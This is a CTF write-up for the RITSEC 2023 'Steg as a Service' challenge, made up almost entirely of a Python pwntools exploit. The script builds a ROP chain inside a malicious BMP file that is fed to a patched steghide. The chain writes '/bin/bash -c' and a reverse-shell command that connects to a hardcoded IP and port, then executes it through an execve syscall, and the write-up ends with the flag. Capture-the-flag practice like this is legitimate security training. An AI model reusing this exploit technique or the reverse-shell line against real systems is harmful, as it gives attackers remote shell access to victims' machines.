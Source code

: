 ![image](https://user-images.githubusercontent.com/63996033/229367028-39983692-f3ed-4923-b371-9fc15ec15d3c.png)

[steg.zip](https://github.com/jeromepalayoor/RITSEC-CTF-2023/blob/main/BIN-PWN/Steg%20as%20a%20Service/steg.zip) [steghide-patched](https://github.com/jeromepalayoor/RITSEC-CTF-2023/blob/main/BIN-PWN/Steg%20as%20a%20Service/steghide-patched)

Solution:
```py
from pwn import *

ip_address = b"44.202.138.115"
port = b"9999"

syscall_gadget = p64(0x00000000004066b3)
pop_rdi_gadget = p64(0x0000000000450e8b)
pop_rsi_gadget = p64(0x0000000000417f3e)
pop_rdx_gadget = p64(0x000000000042cd0c)
rdx_rax_gadget = p64(0x000000000040db3e) #: mov rax, rdx; pop rbp; ret
rdx_rax_mem_gadget = p64(0x000000000040b399) # : mov qword ptr [rax], rdx ; nop ; pop rbp ; ret

def write_what_where(addr, val):
    assert(len(val) <= 8)
    p = pop_rdx_gadget
    p += p64(addr)
    p += rdx_rax_gadget
    p += p64(0x400000)
    p += pop_rdx_gadget
    p += val.ljust(8, b"\x00")
    p += rdx_rax_mem_gadget
    p += p64(0x400000)
    return p

writable_base = 0x48aaa8

write_address = writable_base

base = b"\x42\x4d\x1a\x1b\x00\x00\x00\x00\x00\x00\x1a\x00\x00\x00\x0c\x00\x00\x00\xff\x7f\x00\x00\x01\x00\x18\x00\x6c\x8c\xa2\x61\x86\x9d\x59\x7e\x95\x4f\x7b\x97\x40\x71\x93\x35\x69\x90\x39\x6e\x93\x3a\x6f\x94\x3d\x71\x96\x3c\x71\x95\x41\x73\x97\x43\x76\x99\x42\x75\x98\x3e\x72\x99\x40\x70\x97\x41\x74\x97\x41\x78\x9f\x49\x7f\xa3\x4f\x82"
rop = write_what_where(write_address, b"/bin/bas")
rop += write_what_where(write_address + 8, b"h")
binbash_addr = write_address
write_address += 16

rop += write_what_where(write_address, b"-c")
dashc_address = write_address
write_address += 8

revshell_cmd = b"bash -i >& /dev/tcp/" + ip_address + b"/" + port + b" 0>&1"
numwrites = int((len(revshell_cmd)/8) + 1)
for i in range(0, int(numwrites)):
    rop += write_what_where(write_address + (8*i), revshell_cmd[i*8:(i*8)+8])

revshell_addr = write_address
write_address += 8*numwrites + 8

rop += write_what_where(write_address, p64(binbash_addr))
rop += write_what_where(write_address+8, p64(dashc_address))
rop += write_what_where(write_address+16, p64(revshell_addr))

rop += pop_rdi_gadget
rop += p64(binbash_addr)
rop += pop_rsi_gadget
rop += p64(write_address)
rop += pop_rdx_gadget
rop += p64(0x3b)
rop += rdx_rax_gadget
rop += p64(0x400000)
rop += pop_rdx_gadget
rop += p64(0)

rop += syscall_gadget

#print len(rop)
print (base + rop)
final = base+rop
with open("payload.bmp", "w+b") as fd:
    fd.write(final)
```

Flag: `MetaCTF{St3gh1d3_15_re4lly_tru3ly_3v3rywhere_17_s33m5}`
